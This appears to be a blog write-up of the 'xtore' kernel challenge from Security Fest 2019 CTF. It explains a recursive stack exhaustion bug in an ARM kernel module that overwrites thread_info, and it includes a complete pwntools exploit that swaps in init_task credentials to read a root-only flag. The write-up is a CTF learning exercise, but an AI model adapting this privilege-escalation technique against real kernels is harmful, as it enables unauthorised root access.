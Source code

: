 ```yaml
---
title: xtore - Security Fest 2019
date: "2019-05-28 21:14:39"
layout: post
---
```


I was unable to participate much during the CTF, but this challenge looked interesting and I wanted to give it a try afterwards :)

We're given an archive containing a qemu wrapper and a rootfs, which when extracted has an arm kernel module `xtore.ko` and a fake flag in `/root/flag`.

Looking at the module in Ghidra, we can see that in `mod_init` two proc entries at `/proc/xtore/xor` and `/proc/xtore/key` are created.

During the CTF, one of my teammates mementomori found that if you write enough data to `/proc/xtore/xor` in one go then you get a kernel crash. The function that handles the xor write is:

```c
ssize_t xor_write(file *file, char *ubuf, size_t count,loff_t *off) {
  char *dest;
  xor_entry *entry;
  int i;
  cred *creds;

  if (xor_count < 0x100) {
    entry = xor_entries;
    i = 0;
    do {
      if ((entry->len == 0) && (entry->data == NULL)) {
        creds = get_current()->cred;
        dest = kmalloc(count, 0x80d0);
        if (dest == 0) {
          return -0xc;
        }
        xor_entries[i].uid = creds->uid;
        xor_entries[i].len = count;
        xor_entries[i].data = dest;
        xor_chunk(dest, ubuf, count);
        xor_count = xor_count + 1;
        return count;
      }
      i += 1;
      entry = entry + 1;
    } while (i != 0x100);
  }
  return -0xc;
}
```

So it loops through the `xor_entries` array until it finds a free slot, then calls `xor_chunk` which is something like:

```c

void xor_chunk(char *dest, char *ubuf, size_t count) {
  char chunk[512];

  if (!access_ok(ubuf, 0x200)) {
    __memzero(chunk, 0x200);
    return;
  }
  uint res = __copy_from_user(chunk, ubuf, 0x200);
  if (res == 0) {
    uint i = count;
    if (0x1ff < count) {
      i = 0x200;
    }
    if (count == 0) {
      memcpy(dest, chunk, i);
    } else {
      char *c = &chunks[-1];
      do {
        c = c + 1;
        res += 1;
        *c = xor_key[res] ^ c[0];
      } while (res < i);
      memcpy(dest, chunk, i);
      if (count - i != 0) {
        xor_chunk(dest + i, ubuf + i, count - i);
      }
    }
  }
}
```

This function is splitting off up to 0x200 bytes of data from ubuf, xoring it with the key, the calling xor_chunk again with the remaining data.

The issue is that the kernel stack space is very limited, so if we call it with a large enough size then will will hit the base of the stack and will start overwriting the [thread_info](https://elixir.bootlin.com/linux/v3.16.67/source/arch/arm/include/asm/thread_info.h#L50).

Initially I started trying to create a fake `struct task_struct` with a fake `cred`, but then realized that I could just replace it with `init_task` instead.

As there were still a bunch of things that had been replaced, I ended up open the flag and writing it to another file that the user could access, then went into an infinite loop to prevent the kernel from crashing.

```python
#!/usr/bin/env python2

import logging
from pwn import *


def cmd(c):
    p.sendlineafter("$ ", c)


def upload(gzip):
    cmd("cd")

    prog = log.progress("Upload")

    with open(gzip, "rb") as f:
        data = f.read()

    encoded = base64.b64encode(data)

    for i in range(0, len(encoded), 300):
        prog.status("%d / %d" % (i, len(encoded)))
        cmd("echo %s >> benc" % (encoded[i:i+300]))

    cmd("cat benc | base64 -d | gzip -d > bout")
    cmd("chmod +x bout")
    prog.success()


def str2bytes(s):
    return ", ".join(map(lambda c: str(ord(c)), s))


init_task = 0x80433360


def exploit():
    fake_thread_info = ""
    fake_thread_info += p32(0)*2 + p32(0x7f000000) + p32(init_task)

    payload = ""
    payload += shellcraft.echo("Start\n")
    payload += shellcraft.open("/proc/xtore/xor", 'O_RDWR')
    payload += shellcraft.mov("r6", "r0")

    payload += "ldr r5, =buf\n"
    payload += shellcraft.write('r6', 'r5', (0x200*14 + 0x1))
    payload += shellcraft.open("/root/flag", 'O_RDONLY')

    payload += shellcraft.read('r0', 'sp', 0x100)
    payload += shellcraft.open("/home/user/flag", 'O_RDWR')
    payload += shellcraft.write('r0', 'sp', 0x100)
    payload += shellcraft.infloop()

    payload += ".data\n"
    payload += "buf: .ds.b 7224, 0\n"
    payload += ".byte {}\n".format(str2bytes(fake_thread_info))

    with context.local(log_level='debug'):
        pwn = make_elf_from_assembly(payload, extract=True)
        write("pwn", pwn)
        print process("gzip --best -k -f ./pwn", shell=True).recvall()

    upload("pwn.gz")

    cmd("touch /home/user/flag")
    cmd("./bout &")
    cmd("sleep 1 && cat flag")

    p.interactive()

    """
    [+] Starting local process '/bin/sh' argv=['gzip --best -k -f ./pwn'] : pid 16070
    [+] Receiving all data: Done (0B)
    [*] Process '/bin/sh' stopped with exit code 0 (pid 16070)

    [+] Upload: Done
    [*] Switching to interactive mode
    sleep 1 && cat flag
    Start
    /home/user/flag\x00this is not the flag, so do it on the remote machine..."
    """

if __name__ == "__main__":
    context.terminal = ["tmux", "sp", "-h"]
    context.arch = "arm"

    if len(sys.argv) > 1:
        p = remote("xtore-01.pwn.beer", 1337)
    else:
        p = process("./chall", shell=True, env={})

    exploit()
```
